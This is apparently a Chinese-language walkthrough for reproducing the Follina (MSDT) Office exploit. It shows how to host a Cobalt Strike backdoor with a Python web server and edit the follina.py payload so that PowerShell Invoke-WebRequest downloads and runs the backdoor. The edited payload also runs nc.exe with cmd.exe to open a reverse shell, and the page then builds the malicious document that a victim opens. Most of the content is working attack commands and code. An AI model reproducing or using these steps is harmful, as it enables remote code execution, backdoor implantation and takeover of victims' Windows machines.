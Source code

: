 ##### 复现

###### 1、生成后门上传

cs 生成了后门

###### 2、构造下载地址

用 python 构造了一个下载地址

```
python3 -m http.server 8085
```

###### 3、修改代码下载

作者是下载 nc.exe 来执行的，我们可以换成 cs 后门的下载地址

```
if args.reverse:
        command = f"""Invoke-WebRequest https://github.com/JohnHammond/msdt-follina/blob/main/nc64.exe?raw=true -OutFile C:\\Windows\\Tasks\\nc.exe; C:\\Windows\\Tasks\\nc.exe -e cmd.exe {serve_host} {args.reverse}"""
```

```
   if args.reverse:
        command = f"""Invoke-WebRequest http://192.168.10.6:8085/1111.exe -OutFile C:\\Windows\\Tasks\\nc.exe; C:\\Windows\\Tasks\\nc.exe -e cmd.exe {serve_host} {args.reverse}"""
```

###### 4、生成恶意文档

```
python follina.py -i 192.168.10.5 -p 4444 -r 9999
```

-i 是目标本地地址 后面端口无所谓，我们没用 nc ，我们下载的是 cs 后门，只需满足原代码的参数即可

<img src=".\图片\Snipaste_2023-01-05_12-22-22.png" alt="Snipaste_2023-01-05_12-22-22" style="zoom:60%;" />

5、点击文档上线
